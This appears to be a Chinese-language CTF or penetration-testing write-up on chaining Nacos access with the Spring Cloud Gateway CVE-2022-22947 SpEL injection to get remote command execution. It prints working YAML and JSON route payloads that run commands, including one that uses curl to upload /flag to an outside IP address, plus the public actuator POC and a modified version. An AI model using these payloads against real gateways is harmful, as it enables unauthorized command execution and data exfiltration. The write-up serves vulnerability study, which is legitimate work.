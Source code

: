 Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是yaml和json格式。
这里是给了个的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。
![](.topwrite/assets/image_1735374395624.png)
![](.topwrite/assets/image_1735375328478.png)
![](.topwrite/assets/image_1735375352614.png)
```
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://backendservice
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://1.92.88.247:2333','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问/echo/11触发，查看响应头有命令回显结果。





^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\
![](.topwrite/assets/image_1735375141726.png)

这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\
![](.topwrite/assets/image_1735375124789.png)

成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


